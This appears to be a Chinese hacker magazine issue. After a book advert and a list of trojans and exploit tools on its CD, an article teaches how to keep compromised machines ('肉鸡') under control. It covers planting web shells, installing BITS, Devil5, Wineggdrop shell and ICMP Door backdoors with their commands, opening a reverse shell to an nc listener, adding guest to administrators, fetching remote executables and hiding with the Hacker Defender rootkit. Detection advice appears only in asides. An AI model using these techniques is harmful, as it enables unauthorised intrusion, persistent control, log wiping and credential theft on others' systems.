《黑客攻防 One To One》一书收集了广大上网用户经常遇到的网络安全问题，针对这些问题，编者按照“问题”——“分析”——“防范”的思路，条理清晰地告诉你在网络上如何应对黑客可能进行的入侵与反攻击，并对自己的计算机系统进行最有效的防护，以及如何进行反入侵与攻击。内容涵盖了从开始接触网络到熟练应对各种网络攻击的大量技巧，可以说是一本了解黑客入侵手段，从而掌握各种防护对策的最佳入门读物。通过介绍黑客可能采取的攻击手段、黑客攻击的思路、各种入侵工具的结合使用，详细分析了黑客攻击的方法和防范对策，从而对黑客攻击有一个充分的认识。

学习本书不需要专业的网络知识，适用于广大希望增强网络安全意识的网络爱好者阅读。

本书光盘收集了书中解决问题用到的所有工具，另外，还收集了优化系统、提高防范措施所用到的大量共享软件，配合书中解决问题的思路，灵活运用，完全可以做到保证一个系统的安全运行。

汇款地址：北京市中关村邮局 008 信箱

邮政编码：100080

收款人：《黑客防线》邮购部

热线电话：(010)62141446　62141445-8011

E-mail：yougoubu@hacker.com.cn

- 突破常规限制运行 asp 木马 …… 34
- 打造 SQL 注入脚本 …… 37

## 黑兵器库

- 完美后门之 Serv-U 篇 …… 41
- 鬼桥——危险的代理服务器 Achilles …… 43
- 将后门隐藏到底
  - 内核级后门 Hxdef100 配置及使用方法 …… 46

## 编程解析

- 杀毒软件编程精华——特征码扫描技术 …… 48
- 得到 Web Shell 就这么简单！ …… 50
- Linux 端口复用 …… 54

## 密界寻踪

- Cracker 初级教程之 AES 算法破解 …… 56
- 怎样算是一个好的软件保护 …… 59

## 新兵训练营

- 一起打造完美的 IE 网页木马 …… 63
- 一盒烟 + N 个脑细胞 = 成功取得服务器权限！ …… 67

## e生e事

- 倚窗孤独 …… 72

## 攻防实验室

## 编读互动

## 你问我答

## 后门木马

irc 木马，由 sdbot05b 源代码修改而来，增加了用户管理、注册表管理、服务管理、IPC 扫描、findpass 功能等！

Spytech SpyAnywhere，只要在被管理服务器上安装该软件，设定一组密码，并启 Server 服务功能，就可在网络上通过浏览器输入被控端 IP 地址，来进入 SpyAnywhere 的管理界面。

Udp Remote Controls，一款运行在微软 Windows 服务器上的 UDP 协议远程后门控制软件。

网页后门工具包，强强的后门工具包！收集了常见的网页后门！

Universal Module Injector，可以将 dll 插入到其它进程中运行，在 NT 系统中将 dll 插入到其它进程中运行。

BlueAngel，可以根据需要生成主动连接和端口反弹两种后门，反弹后门可以用 NC 在自定义的端口监听。

Wolff，扩展 Telnet 服务，可传输文件，可反向连接，可通过参数选择随系统启动或作为普通进程启动。

winshell5，Windows 平台上最精巧的 Telnet 服务器软件。

Winrcloader，本木马尝试利用 Web Browser 来绕过防火墙，在天网下测试成功。

Ntrootkit，采用无连接协议、不开放端口，有三种协议可以选择（0:userdefined，1:icmp，2:udp），它隐藏进程。

## 加密解密

Armadillo，一款很经典的壳，它的保护方式很独特，而且强度很不错，想手动脱它没有一定功力还是很麻烦的。推荐需要较强保护的软件使用！

幻影，不用多说了，目前最棒的壳之一，D.boy 的大作，建议注册正版！压缩包内有 swift 兄的破解文件。

- 铁甲，一个国产的加壳软件，强度不高，有兴趣的可以玩玩！
- MD5TextHasher，一个按照 MD5 算法把文字转化成密文的小工具！
- OllyDbg 隐身插件，现在一些软件和加密壳依靠 IsDebuggerPresent 这个 API 来侦测 OllyDbg，这个插件可以帮你躲过这些侦查。很实用的一个小东西！
- Corso5.0，一个针对 fox 的反编译东东。
- OllyDbg，目前风头强劲的一款跟踪软件，它的跟踪和反反跟踪做得都很不错，而且功能强大，跟踪起来数项清晰明了。
- 超级加密光盘破解器，现在很多 D 版盘都用隐藏目录，不让你拷贝它的东西，有了这个东东就可以解决掉很多这样的问题！
- SoftICE For NT Win2000，WinNT 和 2000 平台上必不可少的调试工具。

## 安全防护

- 木马克星，可以查杀 5021 种国际木马、112 种电子邮件木马，保证查杀冰河类文件关联木马、OICQ 类寄生木马、ICMP 类幽灵木马、网络神偷发送弹木马。
- 天网防火墙 V2.51 稳定版，根据系统管理者设定的安全规则（Security Rules）把守网络，提供强大的访问控制、应用选通、信息过滤等功能，帮你抵挡网络入侵和攻击，防止信息泄露。
- 木马清除大师，通过当前系统的活动进程、注册表项、开放的网络端口来查找并删除在你系统运行的国际国内流行木马，保证查杀冰河之类的文件关联型木马和其他端口连接木马。
- 反黑客木马专家，能智能检测和清除超过 12000 多种黑客程序和木马程序。使用多种扫描方式，全面而可靠地检测你的计算机。
- 江民黑客防火墙，适应互联网时代个人网络安全的需要，江民科技最新推出的个人防火墙软件——反黑王，保障个人上网安全。该黑客防火墙含游戏密码防盗功能。
- The Cleaner，一个专门检测和清除侵入您系统中的特洛伊木马的专业程序，内置 2289 个木马标识。

可在线升级版本和病毒数据库，操作简单，功能强大！

绿鹰PC万能精灵，这是一款集系统优化、病毒清理、黑客防御、OICQ娱乐于一体的综合软件。

恶意网站免疫（QQ病毒免疫），能够及时屏蔽恶意网站，防患于未然。

## 读者点播

- HTTP傻瓜服务器，软件很小，但是Web功能非常齐全。
- 攀达反拷卫士，一款应用领域很广的信息安全保护软件。它可以有效地防范本机的文件数据被他人通过各种方式拷贝、泄密。本软件的操作简单方便，适合各类个人或单位使用。
- MD5破解器，现在很流行的加密方式，可以破解大部分网站的数据库加密。
- EXE捆绑机，本软件可以把两个可执行程序捆绑成一个程序，执行捆绑后的程序就等于同时执行了两个程序。
- x-scan 3，国产扫描器的顶尖之作！适合各层次读者使用。
- Jordan Windows Telnet Server远程溢出程序，精心构建提交数据可以以进程权限在系统上执行任意指令。
- 字典工具，快速的字典生成工具3.0。
- stimulant，Windows安全助手 Ver 0.9 Build 1212，支持2K/XP系统，操作简单，绿色软件。

## 动画教程

- SQL注入论坛，对一个不常见的论坛的SQL注入漏洞研究。
- 菜鸟捡肉鸡，适合新手观看的找肉鸡的方法。
- 下载数据库，网络上现在流行的防止数据库被下载的方法很多是错误的，本期文章有详细说明，这个教程让你能下载普通防护的数据库。
- GIF木马，简单制作GIF木马的动画。
- 动感极品下载系统漏洞，入侵动感极品下载管理系统动画教程。
- 动网密码破解，动网密码是经过MD5加密的，需要特定的程序破解，这个教程就是解决这样的问题的。
- 入侵BBXP，利用比较旧的一个漏洞，但现在很多人还是有这样的漏洞！
- SQL Injection，完全手工，一步一步教学，非常适合新手学习。
- 张博实验室9关录像，本期收录一些实验室的过关动画，好坏由大家评判。
- 刘佳八、九关动画，九关方法比较可取，很简单。

## 杂志相关

- knlps，一个能查杀hxdef084进程的小程序。也适用于其他rootkit，程序包括knlps.exe和knlps.sys两部分。
- Rootkit Detector，可以检测系统中是否存在rootkit，具体使用方法请看杂志。
- Pslist，pstools中的常用工具，可以列出详细系统进程。
- IIS Lockdown，微软发布专门用于IIS网络服务器的安全管理工具，高级模式则可以通过各种指导，帮助网络管理员精确配置服务器。
- URLScan，可让Web服务器只响应合法的要求，藉此保护Web服务器。
- AccessKey，这是一款非常实用的破解数据库密码程序：accesskey.exe。
- Sniffer，一个简单的sniffer程序。
- achilles，一个用来测试网站安全性能的工具软件。
- 黑客守卫者，内核级rootkit，注意不要轻易运行！
- 简单的SQL注入脚本程序，自己编写的注入程序，适合新手使用。
- asp检测程序，本工具对“网管”的使用是非常好的，能检测出常见的ASP木马！
- imail溢出漏洞和源代码，文中的溢出工具。
- serv-u溢出工具，serv-u是使用非常广泛的FTP服务器，它存在很严重的溢出漏洞可以被利用。
- Crackme，AFS算法破解中的实验程序。

刘流：大家还记得小时候看的孙悟空和如来佛斗法的故事吧？再聪明的猴头，最后也只能在如来的手掌里扑腾，法力没人家高就是没办法。放到现实生活中，网络管理员和普通的入侵者就是这样攻防对立的关系，谁的“法力”高，谁就是天下的主宰！这也是无数网络安全爱好者喜欢研究安全技术的原因——在攻与防的对立统一中突出自己的价值！

今天就给广大安全爱好者带来控制肉鸡的法宝，让肉鸡乖乖地被你控制着，永远不能逃出你的五指山！

## 让肉鸡锁进五指山

### ——精品后门程序及思路分析


文／图 王君

### 什么是后门程序

后门程序又称特洛伊木马，其用途在于潜伏在电脑中，从事搜集信息或便于黑客进入的动作。后门程序和电脑病毒最大的差别，在于后门程序不一定有自我复制的动作，也就是后门程序不一定会“感染”其他电脑。

后门是一种登录系统的方法，它不仅绕过系统已有的安全设置，而且还能摧毁系统上各种增强的安全设置。

后门包括从简单到奇特，有很多的类型。简单的后门可能只是建立一个新的账号，或者接管一个很少使用的账号；复杂的后门（包括木马）可能会绕过系统的安全认证而对系统有完全的存取权。例如一个login程序，当你输入特定的密码时，你就能以管理员的权限来存取系统。

后门能相互关联，而且这个技术被许多黑客所使用。例如，黑客可能使用密码破解一个或多个账号的密码，黑客可能会建立一个或多个账号。一旦黑客可以存取这个系统，黑客可能使用一些技术或利用系统的某个漏洞来提升权限。黑客可能会对系统的配置文件进行小部分的修改，以降低系统的防卫性能。也可能会安装一个木马程序，使系统打开一个安全漏洞，以利于黑客完全掌握系统。

以上是在网络上常见的对“后门”的解释，其实我们可以用很简单的一句话来概括它：后门就是留在计算机系统中，供某位特殊使用者通过某种特殊方式控制计算机系统的途径！——很显然，掌握好后门技术是每个网络安全爱好者不可或缺的一项基本技能！它能让你牢牢抓住肉鸡，让它永远飞不出你的五指山！

下文将以笔者从事网络安全多年的工作经验为基础，给广大的网络初级安全爱好者讲解一些网络上常用的后门的种类和使用方法以及技巧，希望大家能在最短的时间内学习到最好的技术，提升自己的网络安全技术水平！

## 后门的分类

后门可以按照很多方式来分类，标准不同自然分类就不同，为了便于大家理解，我们从技术方面来考虑后门程序的分类方法。

- 1. 网页后门

此类后门程序一般都是使用服务器上正常的Web服务来构造自己的连接方式，比如现在非常流行的asp、cgi脚本后门等。

- 2. 线程插入后门

利用系统自身的某个服务或者线程，将后门程序插入到其中，具体原理原来《黑客防线》曾具体讲解过，感兴趣的朋友可以查阅。这也是现在最流行的一个后门技术。

- 3. 扩展后门

所谓的“扩展”，是指在功能上有大的提升，比普通的单一功能的后门有很强的使用性，这种后门本身就相当于一个小的安全工具包，能实现非常多的常见安全功能，适合新手使用——但是，功能越强，个人觉得反而脱离了后门“隐藏”的初衷，具体看法就看各位使用者的喜好了。

- 4. C/S后门

和传统的木马程序类似的控制方法，采用“客户端/服务器端”的控制方式，通过某种特定的访问方式来启动后门进而控制服务器。

- 5. root kit

这个需要单独说明，其实把它单独列一个类在这里是不太恰当的。但是，root kit的出现大大改变了后门程序的思维角度和使用理念，可以说一个好的root kit就是一个完全的系统杀手！后文我们讲涉及到这方面，相信一定不会让大家失望！

上面是按照技术做的分类，除了这些方面，正向连接后门、反向连接后门等分类也是很常见的。

其实如何分类是编程者考虑的事，广大的使用者就不用考虑那么多了，我们看重的，只是功能！

## 入侵法宝——精品后门

上面的“废话”相信大家都看累了吧？好，下面我们来看看现在网络中流行的后门究竟长什么模样！想学习网络安全并想提高的朋友看清楚了哦，这可是让你的肉鸡逃不过你的五指山的大好途径！

- 1. 网页后门

近段时间网络上针对系统漏洞的攻击事件渐渐少了，因为大家在认识到网络安全的重要性之后，最简单却又最有效的防护办法：升级，都被大家所认同。所以，系统漏洞在以后的岁月中存活的周期会越来越短，而从最近的趋势来看，脚本漏洞已经渐渐取代了系统漏洞的地位，非常多的人开始研究起脚本漏洞来，SQL注入也开始成为各大安全站点的首要关注热点。而说到脚本，网页后门当然就是不得不说的重头戏了。现在国内入侵的主流趋势是先利用某种脚本漏洞上传脚本后门，然后浏览服务器内安装的程序，找到提升权限的突破口，进而拿到服务器的系统权限。

现在asp、cgi、php这3个脚本大类在网络上的普遍运用带来了脚本后门在这3方面的发展，下面我们一道来：

## 海阳顶端asp木马

这是asp脚本方面流传非常广的一个脚本后门，在经过几次大的改革后，推出了“海阳顶端asp木马xp版”“海阳顶端asp木马红粉佳人版”等功能强大、使用方便的后门，相信经常接触脚本安全的朋友对这些都不会陌生。

| 项目 | 内容 |
|---|---|
| 类型 | 网页木马 |
| 使用范围 | 支持asp，Web访问 |
| 隐蔽程度 | ★★★★☆ |
| 使用难度 | ★☆☆☆☆ |
| 危害程度 | ★★★☆☆ |
| 查杀难度 | ★★★☆☆ |

现在的服务器系统配置都相对安全，公开的系统漏洞存在的机会很少，于是脚本方面的漏洞就开始火起来。首先我们通过某种途径获得一个服务器的页面权限（比如利用论坛上传类型未严格设置、SQL注入后获得asp系统的上传权限、对已知物理路径的服务器上传特定程序），然后我们可以通过简单地上传asp程序或者是直接复制海阳顶端的代码，然后通过Web访问这个程序，就能很方便地查阅服务器上的资料了。下面举个简单的例子（由于只是简单的介绍，下文例子不会太难或者太普遍，希望大家理解）。

### 运用举例

leadbbs 2.77曾经风靡网络，它是个很典型的asp论坛，屏蔽了很多可以SQL注入的地方，但是很多傻瓜级别的网络管理员总是喜欢默认安装，然后启用论坛。我们只需要很简单地在IE中输入：www.***.com/bbs/data/leadbbs.mdb，就能够直接下载该论坛的数据库了，而且没有MD5加密哦！我们直接找到管理员的账户和密码，然后登录论坛，到管理界面后将论坛的“联系我们”“帮助”等asp文件替换成我们的海阳网页端代码（图1），然后退出直接访问“联系我们”的页面地址：www.***.com/bbs/User/inc/Contact_info.asp，就可以看到我们的木马页面了（图2）。


现在我们可以罗列出该服务器上所有的文件、


执行guest权限的cmd命令、方便地上传／下载特定程序、远程执行程序等，这样一个隐藏的后门就建好了！取得服务器的system权限就看大家自己的办法了。

一般来说，海阳的功能是非常强大的，而且不容易被查杀（一个朋友采取的方式是：先利用某个脚本漏洞上传网页后门，再通过海阳上传另一个后门到隐藏的路径，然后通过最后上传的后门来删除第一次上传的海阳，这样后门的存放路径就可以放得非常深了，普通管理员是很难发现的）。如果管理员觉得自己可能中了这样的后门，可以利用论坛备份来恢复自己的网页系统，再配合系统日志、论坛日志等程序检查系统，发现可疑asp文件打开看看，海阳是很好识别的，再删除就可以了。

脚本方面的后门还有cgi和php两个大类，使用原理都差不多，这里就不再多介绍，在黑防论坛中也收录了这3种后门，大家可以下载后自己研究。

## 2. 线程插入后门

首先我们来简单解释一下什么是典型的“线程插入”后门：这种后门在运行时没有进程，所有网络操作均插入到其他应用程序的进程中完成。也就是说，即使受控端安装的防火墙拥有“应用程序访问权限”的功能，也不能对这样的后门进行有效的警告和拦截，也就使对方的防火墙形同虚设了！这种后门是现在非常主流的一种，很让防护的人头疼，因为对它的查杀比较困难，这种后门本身的功能也比较强大，是“居家旅行、入侵攻击”的必备品哦！

这类的典范就是国内提倡网络共享的小榕的BITS了，从它的推出以来，各类安全工具下载园地里BITS就高居榜首，非常多的朋友在使用它的过程中感到了方便。

## BITS

| 项目 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | Win2000 / XP / 2003 |
| 隐蔽程度 | ★★★★☆ |
| 使用难度 | ★★★☆☆ |
| 危害程度 | ★★★★☆ |
| 查杀难度 | ★★★☆☆ |

BITS其实是Background Intelligent Transfer Service的缩写，可以在不知不觉中实现另一种意义的Background Intelligent Transfer Service。它是典型的线程插入后门，有以下特点：进程管理器中看不到，平时没有端口，只是在系统中充当卧底的角色；提供正向连接和反向连接两种功能；仅适用于Windows 2000/XP/2003。

### 运用举例

首先我们用3389登录上肉鸡，确定你有system的权限，将bits.dll拷贝到服务器上，执行cmd命令：

```text
rundll32.exe BITS.dll,Install <hkfx>
```

这样就激活了bits，程序用<hkfx>这个特征的字符来辨认使用者，也就相当于你的密码了，然后卸载：

```text
rundll32.exe BITS.dll,Uninstall
```

这是最简单的使用。这个后门除了隐藏性好外，还有两大特点是非常值得借鉴的：端口复用和正／反向连接。虽然很多朋友经常听到这两个名词，但并不了解它们。端口复用就是利用系统正常的TCP端口通讯和控制，比如80、139等，这样的后门有个非常大的好处就是非常隐藏，不用自己开端口也不会暴露自己的访问，因为通讯本身就是系统的正常访问！另一个是反向连接，这个很常见，也是后门中的一个经典思路，因为从服务器上主动访问外边是不被禁止的，很多很厉害的防火墙就怕这点！

BITS的正向连接很简单，大家可以参考它的readme，这种方式在服务器没有防火墙等措施的时候很管用，可以方便地连接，但是遇到有防火墙这样的方式就不灵了，得使用下面的反向连接方式：

在本地使用NC监听（如：nc -l -p 1234），用nc连接目标主机的任何一个防火墙允许的TCP端口（80/139/445......）

```text
输入激活命令：hkfx@dancewithdolphin
[rxell]:1.1.1.1:2222
```

目标主机的CMD将会出现在NC监听的端口2222，这样就实现了绕过防火墙的功能了。

## Devil5［魔鬼5号］

| 项目 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | Win2000 / XP / 2003 |
| 隐蔽程度 | ★★★★☆ |
| 使用难度 | ★★★☆☆ |
| 危害程度 | ★★★★☆ |
| 查杀难度 | ★★★☆☆ |

同BITS一样，Devil5也是线程插入式的后门。和BITS不同的是它可以很方便地在GUI界面下按照自己的使用习惯定制端口和需要插入的线程，适合对系统有一定了解的使用者使用。由于是自定义插入线程，所以它更难被查杀，下面我们来看看它的使用。

### 运用举例

首先使用它自带的配置程序EditDevil5.exe对后门进行常规的配置，包括控制端口、插入线程、连接密码、时间间隔等方面。关键点是对插入线程的定制，一般设置成系统自带的svchost，然后运行后门就可以控制了（图3）。


我们用telnet连接上去，连接的格式是：telnet *** 定制的端口。它和其他后门不同之处在于连接后没有提示的界面，每次执行程序也是分开的，必须要每次都输入密码。比如我们丢掉了服务器的管理员账户，可以激活guest后再将guest加到管理员权限，记得每次执行命令后加上“>密码”就可以了：

```text
net localgroup administrators guest /add >hkfx,
```

然后你又可以控制服务器了。很明显，同榕哥的BITS相比，Devil5有一些缺陷：不能通过系统自带端口通讯、执行命令比较麻烦，需要每次输入密码，而且不回显输入的内容，很容易出错。但是，它有自己的优势：插入线程可以自己定制，比如设置IE的线程为插入的目标就比较难被查杀；自己提供了专门的查杀工具DelDevil5.exe，帮助防护者清理系统；而且它可以任意改名和绑定，使用灵活性上比BITS强……大家选择哪款就看自己的喜好了。

另外，PortLess BackDoor等工具也是此类的后门，功能强大，隐蔽性稍差，大家有兴趣可以自己研究一下。

## 3. 扩展后门

所谓的扩展后门，在普通意义上理解，可以看成是将非常多的功能集成到了后门里，让后门本身就可以实现很多的功能，方便直接控制肉鸡或者服务器。这类的后门非常受初学者的喜爱，通常集成了文件上传／下载、系统用户检测、HTTP访问、终端安装、端口开放、启动／停止服务等功能，本身就是个小的工具包，功能强大。

## Wineggdrop shell

| 项目 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | Win2000 / XP / 2003 |
| 隐蔽程度 | ★★★★★ |
| 使用难度 | ★★☆☆☆ |
| 危害程度 | ★★★★☆ |
| 查杀难度 | ★★★★☆ |

这个后门是扩展后门中很有代表性的一个，功能之全面让人叹为观止。它能实现如下比较有特色的功能：进程管理，可查看、杀进程（支持用进程名或PID来杀进程）；注册表管理（查看、删除、增加等功能）；服务管理（停止、启动、枚举、配置、删除服务等功能）；端口到程序关联功能（fport）；系统重启、关电源、注销等功能（reboot、poweroff、shutdown、logoff）；嗅探密码功能；安装终端，修改终端端口功能；端口重定向功能（多线程，并且可限制连接者IP）；HTTP服务功能（多线程，并且可限制连接者IP）；Sock5代理功能（支持两种不同方式验证，可限制连接者IP）；克隆账号，检测克隆账户功能（clone、checkclone）；增强了的Findpassword功能（可以得到所有登录用户，包括使用克隆账户远程登录用户密码）；HTTP代理（完全匿名，支持OICQ、MSN、mIRC等程序）；其他辅助功能；HTTP下载，删除日志，系统信息，恢复常用关联，枚举系统账户等。

当网络上刚推出这个后门的时候，非常多的人用它来替换自己原来使用的后门，一时间各处赞扬之声迭起，但多为一些普通的新手的心声。其实它和“后门”的原始定义是有出入的：一旦你需要实现越多的功能，那你的程序在执行、隐藏、稳定等方面就需要考虑非常多的问题，一个疏忽就会导致全盘皆败，所以不建议将此后门用在需要非常隐藏的地方。

### 运用举例

在安装后门前，需要使用它自带的EditServer.exe程序对服务端进行非常详细的配置。从10个具体配置中，包括了插入线程、密码、IP登录邮件通告等方面，不难看出它的功能是非常强大的，隐蔽性也很强。下面说几个在入侵中常用的功能，相信经常玩入侵的朋友一定能发现它的强大之处：

- **Fport**：列出进程到端口的列表，用于发现系统中运行程序所对应的端口，可以用来检测常见的隐藏的后门。
- **Reboot**：重启系统，如果你上传并运行了其他后门程序，并需要重启机器以便让后门正常工作，那使用这个命令吧！
- **Shell**：得到一个Dos Shell，这个不多讲了，直接得到服务器或者肉鸡上的cmd shell。
- **Pskill PID或程序名**：用于杀掉特定的服务，比如杀毒软件或者是防火墙。
- **Execute 程序**：在后台中执行程序，比如sniffer等。
- **http://ip/文件名 保存文件名**：下载程序，直接从网上down一个后门到服务器上。
- **Installterm 端口**：在没有安装终端服务的Win2K服务器版的系统中安装终端服务，重启系统后才生效。效，并可以自定义连接端口，比如不用 3389 而用其他端口。

- **StopService/StartService**：停止或者启动某个系统服务，比如 telnet。
- **CleanEvent**：删除系统日志。
- **Redirect**：TCP 数据转发，这个功能是后门程序中非常出色的一个功能，可以通过某一端口的数据转发来控制内网的机器，在渗透入侵的时候非常管用！
- **EnumService**：列举所有自动启动的服务的资料，比如后门、木马。
- **RegEdit**：进入注册表操作模式，熟悉注册表的使用者终于在后门中找到了福音！
- **Findpassword**：得到所有登录用户的密码，比我们常用的 findpass 功能可强多了。
- ……

总体来讲，Wineggdrop shell 是后门程序中很出彩的一个，它经过作者几次大规模的修改和升级，已经趋于稳定，功能的强大当然没得说，但是由于功能太强大，被查杀和怀疑是难以避免的，所以很多人在使用 Wineggdrop shell 一段时间后就发现肉鸡飞了，其实是很正常的事，我们也不用气馁，其实用很简单的方法就可以很好地提高它的隐蔽性，下文将有说明。

相对于 Wineggdrop shell 来说，独孤剑客的 winshell 在功能上就不那么全面了，但是笔者推荐新手更多地使用 winshell 而不是 Wineggdrop shell，因为 winshell 功能除了获得一个 shell 以外，只加入了一些重启、关闭服务器的命令，功能相对简单，但完全使用系统自带的 cmd 来执行命令，对系统的学习和掌握也是非常有帮助的！

Winshell 和 wolf 这两者都是国内早期顶尖的后门程序，程序的编制无疑是非常经典的，新手学习时使用这两款后门一定能让你明白很多系统相关的东西，了解很多入侵思路和方法。

## 4. C/S 后门

传统的木马程序常常使用 C/S 构架，这样的构架很方便控制，也在一定程度上避免了“万能密码”的情况出现，对后门私有化有一定贡献，这方面分类比较模糊，很多后门可以归结到此类中，比如 ACKCMD、NTROOTKIT 等，其中在思路方面比较巧妙的就是 ICMP Door 了。

### ICMP Door

| 项目 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | win2000/xp/2003 |
| 隐蔽程度 | ★★★★★☆ |
| 使用难度 | ★★★☆☆☆ |
| 危害程度 | ★★★★☆☆ |
| 查杀难度 | ★★★★★★ |

这个后门利用 ICMP 通道进行通信，所以不开任何端口，只是利用系统本身的 ICMP 包进行控制，安装成系统服务后，开机自动运行，可以穿透很多防火墙——很明显可以看出它的最大特点：不开任何端口！只通过 ICMP 控制！和上面任何一款后门程序相比，它的控制方式是很特殊的，连 80 端口都不用开放，不得不佩服程序编制者在这方面独特的思维角度和眼光！

### 运用举例

这个后门其实用途最广的地方在于突破网关后对内网计算机的控制，因为很多机密数据都是放在内网计算机上的，而控制内网计算机并不是我们想像的那么容易，笔者曾经被授权对一个安全意识很到位的商业网络进行入侵检测，它的网络内部并不像我们常见的内网那样非常容易入侵和控制，因为该公司本身涉及到一些网络安全的服务，所以内网个人计算机的防护是很到位的。在尝试过很多后门后，最后 ICMP Door 帮我实现了成功的渗透内网！由此笔者开始爱上这个后门。

```text
icmpsrv.exe --install
icmpsend.exe IP
[http://xxx.xxx.xxx/admin.exe -hkfx.exe]
\\system32\
```

首先使用 icmpsrv.exe --install 参数进行后门的安装，再使用 icmpsend.exe IP 进行控制，可以用：[http://xxx.xxx.xxx/admin.exe -hkfx.exe] 方式下载文件，保存在 \\system32\ 目录下，文件名为 hkfx.exe，程序名前面的“-”不能省去。

用 [pslist] 还可以列出远程主机的进程名称和 pid，再使用 [pskill id] 就可以杀进程了，同样，输入普通 cmd 命令，则远程主机也就执行了相关的命令。

这个后门是采用的 C/S 构架，必须要使用 icmpsend 才能激活服务器，但是它也有自己的先天不足：后门依靠 ICMP 进行通讯，现在的网络，经过冲击波的洗礼后，很少有服务器还接受 ICMP 包了，很多都屏蔽掉了它，所以用它来控制服务器不是一个好办法，这也是我为什么用它来控制内网计算机的原因了——内网很少有人屏蔽 ICMP 包吧？！

## 5. root kit

如果说上面的后门程序都各有千秋、各有所长的话，它们和经典的 root kit 一比简直就是小巫见大巫了，那究竟什么是 root kit 呢？

Root kit 出现在 20 世纪 90 年代初，在 1994 年 2 月的一篇安全咨询报告中首先使用了 root kit 这个名词。从出现至今，root kit 的技术发展非常迅速，应用越来越广泛，检测难度也越来越大。其中针对 SunOS 和 Linux 两种操作系统的 root kit 最多。

很多人有一个误解，他们认为 root kit 是用作获得系统 root 访问权限的工具。实际上，root kit 是攻击者用来隐藏自己的踪迹和保留 root 访问权限的工具。通常，攻击者通过远程攻击获得 root 访问权限，进入系统后，攻击者会在侵入的主机中安装 root kit，然后他将经常通过 root kit 的后门检查系统是否有其他的用户登录，如果只有自己，攻击者就开始着手清理日志中的有关信息。通过 root kit 的嗅探器获得其他系统的用户和密码之后，攻击者就会利用这些信息侵入其他的系统。

从 *nix 系统上迁移到 Windows 系统下的 root kit 完全沿袭了这些“可怕”的功能！现在网络上常见的 root kit 是内核级后门软件，用户可以通过它隐藏文件、进程、系统服务、系统驱动、注册表键和值、打开的端口以及虚构可用磁盘空间。程序同时也在内存中伪装它所做的改动，并且隐身地控制被隐藏进程。程序安装隐藏后门，注册隐藏系统服务并且安装系统驱动。该后门技术允许植入 Redirector，是非常难以查杀的一个东西，让很多网络管理员非常头疼！

### Hacker Defender

| 项目 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | win2000/xp/2003 |
| 隐蔽程度 | ★★★★★ |
| 使用难度 | ★★★★★ |
| 危害程度 | ★★★★★ |
| 查杀难度 | ★★★★★（呵呵，全部五星，因为它太“霸道”了！） |

现在最新版的 hxdef 是 1.0.0，它是从国外流传过来的一个程序，包含两个关键程序，里面的配置文件 ini 非常复杂，相信新手使用也是很困难的，主要包括：

[Hidden Table]、[Root Processes]、[Hidden Services]、[Hidden RegKeys]、[Hidden RegValues]、[Startup Run]、[Free Space]、[Hidden Ports]、[Settings]。

对应的功能就是隐藏文件（目录）、隐藏进程、隐藏服务、隐藏注册键、隐藏注册表键值、启动程序、增加磁盘剩余空间、隐藏端口、后门设置，具体配置我们就不具体讲解了，本期的文章有详细的介绍，我们说说它的特点（纯粹个人观点和经验，偏激的地方请大家海涵）：

- 1. 可以实现正常系统 TCP 端口的通讯，比如 80 等，这个功能在高级后门中并不鲜见。
- 2. 能得到简单的系统 shell，对入侵的老手来说这就够了，多余的功能反而是累赘。
- 3. 隐藏端口，如果你非要使用 TCP 的某一非常规端口通讯，那使用这个功能吧，放心，别人发现不了的。
- 4. 隐藏后门的所有可找到的东西！这个只能用一个字来形容：牛！比如隐藏文件、服务、注册表键等功能，虽然我们说起来是一句话，相信识货的朋友应该能发现这中间 NB 的地方！
- 5. 史上最经典后门思维：配合其他扩展型后门使用，效果好得出乎你的意料！（这是后面的内容，我们马上讲到）。

抛开其他不讲，系统中安装了这样的 root kit，你通过普通的查杀途径根本检测不到这个程序这点就非常值得我们利用了！试想：一个在你服务器上运行的后门，你连看都看不到它，别说查杀了！

> 由于此后门危害太大，所以编辑特别在此提醒您有一段基础、喜欢研究后门程序的朋友可以自己去研究。不过千万注意不要误运行了程序，查杀和清除是非常麻烦的事！直接重新安装系统吧！

### 经典后门思维

现在很多朋友都在尝试着开发一些自己的后门程序，他们企图将非常多的功能加入到后门里，恨不得一个后门就是一个操作系统！——很明显，这样是不对的！因为一个好的后门，能实现非常单一的功能就够了，它不是给你控制服务器的，而是给你在丢掉服务器控制方法的时候用来再次控制服务器的！所以，不要经常使用后门程序，当然也不要让你的后门程序太大。

所有网络安全工具都存在一个问题：隐藏！现在随着广大网友安全意识的提高，杀毒软件、系统安全保护程序这些东西再不是“珍品”了，所以，就算你的后门程序能实现两万个功能，但是很容易就被杀毒软件查杀的话，那也是白搭！换句话说：如果别人能很方便地看看进程、查查注册表、看看端口就能查出系统有问题的话，你这个后门也就算不上好了！所以记住：隐藏才是最重要的！

很多朋友都喜欢使用某个功能很强大的后门程序来控制服务器，虽然很隐蔽，但一旦被杀，那他就只有望着服务器哭了。其实只要我们稍微放宽思路就能解决这样的问题：嵌套使用互补的后门程序！这样一旦一个后门暴露，另一个后门或者几个后门依然在服务器上，通过其他依然可以控制服务器——这点说起来很简单，里面涉及到很多入侵中的经验和方法，也涉及到 root kit，后文我们会讲到。

对现在的网络来说，如果一个网络安全工具被公布，那么，在很短的时间内这个程序将被安全爱好者传到网络的任何一个地方！很明显，这样的程序的存活期很短，不出几天就被查杀了，所以，本文列举的所有程序都可以在网络上找到（光盘上也有收录），只是给大家提供一种比较好的思路和介绍，很多好的后门是私人使用的。希望大家通过自己的学习也能写出自己的优秀后门！

通过上面的讲解，相信大家对现在主流的后门程序都有了一定程度的了解，由于篇幅关系，本文不可以一个接一个实际地去讲解用法和查杀，相信那样读者读着也无聊，编辑审稿后也不能刊登了，具体的使用方法还得靠各位去摸索，下面我们说说经典后门的几个个人体会。

